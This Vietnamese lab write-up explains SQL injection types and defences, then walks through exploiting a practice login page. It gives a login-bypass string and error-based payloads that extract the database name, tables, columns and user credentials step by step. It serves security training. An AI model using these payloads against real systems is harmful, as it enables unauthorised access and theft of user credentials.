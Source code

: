 # Tìm hiểu SQL injection
## 1. SQL injection là gì?

SQL injection (SQLi) là một lỗ hổng bảo mật web cho phép kẻ tấn công can thiệp vào các truy vấn mà ứng dụng thực hiện đối với cơ sở dữ liệu. 
Với SQL injection, hacker có thể truy cập một phần hoặc toàn bộ dữ liệu trong hệ thống. Trong nhiều trường hợp, hacker không chỉ đọc được dữ liệu mà còn có thể chỉnh sửa dữ liệu. Lúc này hacker có thể đăng nhập dưới vai trò admin, lợi dụng hệ thống, hoặc xoá toàn bộ dữ liệu khiến hệ thống ngừng hoạt động.

## 2. Các dạng tấn công SQL injection

![](https://i.imgur.com/jIHZycb.png)

### 2.1. In-band SQLi

In-band SQL injection là kiểu tấn công SQL injection phổ biến và dễ khai thác nhất. In-band SQLi xảy ra khi kẻ tấn công sử dụng cùng một kênh liên lạc để khởi động các cuộc tấn công và thu thập kết quả. 
Hai loại phổ biến nhất của In-band SQLi là Error-based SQLi và Union-based SQLi.
* Error-based: kẻ tấn công thực hiện inject các câu truy vấn lỗi thông qua input, sau đó dựa vào những thông báo lỗi này để thu thập thông tin về cấu trúc DB.
* Union-based: kẻ tấn công lợi dụng toán tử UNION để thu thập thông tin về DB.

### 2.2. Inferential (Blind) SQLi

Thông tin về cơ sở dữ liệu không được hiển thị với người dùng nên kẻ tấn công phải gửi payload và thu thập thông tin thông qua các response.
Blind SQLi thường mất nhiều thời gian để khai thác hơn các dạng SQLi khác.
Có hai loại Blind SQLi là Time-based và Boolean-based.
* Time-based: Hacker sẽ gửi một truy vấn SQL, làm cho DB đợi (trong vài giây) trước khi có thể hoạt động. Sau đó, hacker có thể xem thời gian DB cần để phản hồi, một truy vấn là đúng hay sai. Dựa trên kết quả, một HTTP repsonse sẽ được tạo ra. Vì vậy hacker có thể tìm ra thông báo mà chúng đã sử dụng trả về đúng hay sai, không cần dựa vào dữ liệu từ DB.
* Boolean-based: Hacker gửi một truy vấn SQL đến DB, làm ứng dụng trả về một kết quả. Kết quả có thể khác nhau tùy vào truy vấn đúng hay sai. Dựa vào đó, kẻ tấn công điều chỉnh câu truy vấn để khai thác.

### 2.3. Out-of-band SQLi
 
Out-of-band SQL Injection không phổ biến lắm, chủ yếu là do nó phụ thuộc vào các tính năng được bật trên máy chủ cơ sở dữ liệu đang được ứng dụng web sử dụng.
Phương thức tấn công này sử dụng một cấu trúc truy vấn SQL để yêu cầu sever trả về kết quả thông qua các kênh liên quan đến mạng.

## 3. Cách phòng chống SQLi

* **Lọc dữ liệu từ người dùng:** Ta sử dụng filter để lọc các kí tự đặc biệt (; ” ‘) hoặc các từ khoá (SELECT, UNION) do người dùng nhập vào. 
* **Không cộng chuỗi để tạo SQL:** Sử dụng parameter thay vì cộng chuỗi. 
* **Không hiển thị exception, message lỗi:** Hacker dựa vào message lỗi để tìm ra cấu trúc database. Khi có lỗi, ta chỉ hiện thông báo lỗi chứ đừng hiển thị đầy đủ thông tin về lỗi, tránh hacker lợi dụng.
* **Phân quyền rõ ràng trong DB:** Nếu chỉ truy cập dữ liệu từ một số bảng, nên tạo một account trong DB và gán quyền truy cập cho account đó. Lúc này, dù hacker có inject được sql cũng không thể đọc dữ liệu từ các bảng chính, sửa hay xoá dữ liệu.
* **Backup dữ liệu thường xuyên:** Dữ liệu phải thường xuyên được backup để nếu có bị hacker xoá thì ta vẫn có thể khôi phục được. 

___

# Khai thác SQL injection

## 1. Khai thác Error-based 

Khi nhập `' OR 1=1 -- ` vào ô username, em nhận được thông báo đăng nhập thành công nên ở đây dính SQLi.

![](https://i.imgur.com/9G1I2t0.png)

Khi nhập vào đây một câu truy vấn lỗi syntax thì sẽ có thông báo lỗi hiện ra. Đây là dấu hiệu của error-based.

![](https://i.imgur.com/cJjElxV.png)

Để lấy được tên cơ sở dữ liệu, em tạo ra một payload dựa trên `Duplicate entry for key 'group_key'`. 
**Payload:**`' or 1=1 group by concat(database(),'-', floor(rand(0)*2)) having min(0)-- `
`floor(rand(0)*2)`: Sinh ra 0 hoặc 1 để nối với tên database phía trước. Điều này chắc chắn tạo ra một group_key bị trùng, chậm nhất là ở lần thứ ba.

![](https://i.imgur.com/dhSyED7.png)

Như vậy, em tìm được tên cơ sở dữ liệu là `kcsc`.
Lúc này, em tạo một payload tương tự để tìm tên bảng.
**Payload:** `' or 1=1 group by concat((select table_name from information_schema.tables where table_schema='kcsc'),'-',floor(rand(0)*2)) having min(0)-- `

![](https://i.imgur.com/kWFYSdV.png)

Ở đây, em thấy xuất hiện lỗi `Subquery returns more than 1 row in C:\xampp\htdocs\KCSC-train\task_1\login.php:28`. Điều này do cơ sở dữ liệu có nhiều hơn 1 bảng. Vậy để tìm ra tên bảng, em cần thêm `limit 0,1` vào payload để lấy ra tên bảng đầu tiên trong DB.
**Payload:** `' or 1=1 group by concat((select table_name from information_schema.tables where table_schema='kcsc' limit 0,1),'-',floor(rand(0)*2)) having min(0)-- `

![](https://i.imgur.com/G9WyOX4.png)

Ở đây, em biết được tên bảng đầu tiên là `task1`.
Tương tự, thay `limit 1,1`, em có tên bảng thứ hai là `upload`. 
Tăng lên `limit 2,1` em thấy không hiển thị lỗi nữa. Vậy DB này có 2 bảng là `task1` và `upload`. 
Tiếp theo, em khai thác thông tin ở bảng `task1`.
Bằng cách như trên, em cũng tìm ra được tên các cột trong bảng.
**Payload:** `' or 1=1 group by concat((select column_name from information_schema.columns where table_name='task1' limit 0,1),'-',floor(rand(0)*2)) having min(0)-- `.

![](https://i.imgur.com/h9UAKCh.png)

![](https://i.imgur.com/AxIr78R.png)

![](https://i.imgur.com/BUQ2qvP.png)

Vậy bảng `task1` có 3 cột lần lượt là: `id`, `username`, `password`.
Bây giờ, để lấy dữ liệu từ bảng, em truyền payload như sau:

**Payload lấy id:**`' or 1=1 group by concat((select id from task1 limit 0,1),'-',floor(rand(0)*2)) having min(0)-- `

**Payload lấy username:**`' or 1=1 group by concat((select username from task1 limit 0,1),'-',floor(rand(0)*2)) having min(0)-- `

**Payload lấy password:**`' or 1=1 group by concat((select password from task1 limit 0,1),'-',floor(rand(0)*2)) having min(0)-- `
![](https://i.imgur.com/IFG4Swc.png)

![](https://i.imgur.com/U32xc1N.png)

![](https://i.imgur.com/68b7wch.png)

Em đã có được thông tin người dùng đầu tiên như sau:
> id: 22
> username: Cuc
> password: cuc

Muốn lấy thông tin những người dùng còn lại, ta làm tương tự như trên và thay bằng `limit 1,1`, `limit 2,1`,...